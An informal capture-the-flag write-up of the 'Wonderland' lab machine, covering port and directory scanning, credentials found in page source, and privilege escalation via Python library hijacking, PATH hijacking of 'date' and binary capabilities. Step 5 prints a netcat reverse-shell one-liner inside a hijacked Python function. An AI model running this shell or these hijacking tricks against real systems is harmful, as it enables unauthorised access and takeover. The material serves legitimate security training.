alice in wonderland medium ctf woo 
-

1.) check the page
-
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/7b92bc47-a739-422b-8f65-1f0a82394cdf)
- seems normal imagine Alice was a possilbe username
- page source had nothing special
  
2.) nmap scan get them ports
-
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/711d4e25-3130-4aa5-be6d-74bff21fcff3)
- i can see that ssh is open so thats great

3.) gobuster to find them hidden dirsssss
-
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/4567f883-9b7c-4633-bcaf-6c76fa10b1f0)
- repeatedly finding directories within them and they are messages in the book or just plain clues
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/98638b6a-4d39-4078-aa7d-162272ec8b21)
-![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/62f95f3d-b920-4a4b-8891-33b20d779a5e)
-![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/4e2de87c-de37-4f68-a5e8-61fde59b73f1)
- haha funny guess that it was /r/a/b/b/i/t
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/3a61d6bf-3727-48ac-9e46-bab10652410e)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/b866149c-ed41-4f42-8452-43b23db849b0)
- checked the page source i could be on something maybe a pw hopefully
- alice:HowDothTheLittleCrocodileImproveHisShiningTail

4.) ssh to funny login
-
- wow i was so right
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/95d7f549-18da-491d-ae68-bd5087cefc18)

5.) privlege escalation?
- honestly havent found user.txt yet
- but possible gtfo bins or changing the py script for reverse shell
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/5bdda17f-9927-467d-8a14-1c3cb062e78a)
- since rabbit is the one with those privleges, using a script that would call in as Rabbit to escalate
    - create a new py file inside the same dir
        - import os
              def choice(a):
              os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip 1204>/tmp/f")
      - run this and nc listener
      - ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/9bb098c3-8bf5-4cb4-864e-7c26bac43ab4)
      - sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/7e840d6b-b356-401e-a3e5-3d26a59bfbca)
- the damn user flag is in root man
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/87e53d4d-9da2-48c1-a6a8-40baefee6ba4)
- cheesed
-![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/a362bc2a-48fc-4ddd-9f63-7f71c56f5c9e)
- ok Mad hatter

6.) getting files
-
-![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/49eca0a1-14aa-4cb4-96cd-37853a5066e1)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/65746fc5-55fe-4162-b028-0bcb2081e4f8)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/c9ba0c9b-cbc9-4012-a881-8b0f7fe545e4)
- peeped that date is the command that I could exploit
- since date is the first thing that is called in my path, do this
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/3d24855c-f9ab-44fd-97f0-66754a6f51c3)
- changed the date with a exploited script to give me shell for hatter, changed the permission on date to be able to use it w/ rabbit, then called teaParty,
- got pw for hatter
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/d851116f-8d82-4c5b-8f90-3fb4ff9a7544)
- WhyIsARavenLikeAWritingDesk?

7.) further into root
-
- ran getcap -r / 2>/dev/null after ssh into hatter again
    which would grab further exploitations within the binary that have its capabilities set
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/666f040b-7e75-4608-b6f9-98b90c455556)
- gtfo bins then done
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/6f1806b4-fcfc-4b07-af71-a4ad19f0e322)

